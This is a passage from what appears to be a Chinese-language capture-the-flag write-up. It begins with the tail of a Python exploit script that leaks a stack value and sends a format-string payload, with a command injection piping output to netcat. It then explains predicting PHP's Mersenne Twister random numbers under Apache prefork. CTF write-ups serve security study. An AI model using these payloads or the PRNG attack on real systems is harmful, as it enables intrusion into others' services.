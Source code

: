 ```
    l = r.headers['*** stack smashing detected ***']
    l = l.strip(' terminated')
    l = l.ljust(8, '\x00')
    try:
        return unpack('Q', l)
    except:
        return l

def e(cmd, pwd):
    payload = {
        'username': cmd, 
        'password': pwd, 
        'job': '\x48\x10\x60', 
        'action': '%198x%15$hhn'
    }
    print urlencode(payload)
    r = requests.get(URL+'?'+urlencode(payload))



if __name__ == '__main__':

    pwd = leak(0x601090)
    print 'pwd @ %s' % pwd

    e('id | nc 127.0.0.1 12345',pwd=pwd)

```

> [https://gist.github.com/orangetw/583a73f58d49b1a3fc14](https://gist.github.com/orangetw/583a73f58d49b1a3fc14)

0x03 300 Giraffe's Coffee (16 隊解)
=====

> [https://gist.github.com/orangetw/4a412fb0d49cad0c4ea3](https://gist.github.com/orangetw/4a412fb0d49cad0c4ea3)

也是代碼分析的題目

核心的概念是 PHP 中 PRNG 的預測  
由於電腦很難做到真正的 "隨機"，所以現在大部分隨機樹的產生都基於 PRNG 在 PHP 中 PRNG 的實現是變形的`Mersenne Twister`演算法

在沒有提供 seed 的下`php_mt_rand`會拿當前 pid 以及時間做一些運算當成種子  
而這個 seed 是 32-bits 長的，所以是可破解的

有些人會使用現成的工具來解，但會發現失敗，無法主確的預測 PRNG 是因為當 PHP 在 Apache 下時是使用 prefork 的方式去執行  
所以每次的連線都是從已經 fork 好的 process 中挑一個去給你使用  
所以無法確定當前的 process PRNG 中 STATE 的狀態是否為第一次  
以及每次連線上的 process 也不一定相同所以 STATE 狀態更無法預測  
(現成工具只會算 seed 後的第一次來比對)

這點可以使用 Keep-Alive 的方式來確保連上的是同一個 process  
之後再原本種子的破解上多加上往 STATE 的運算(共有 624 個 STATE) 應該就可以解了!
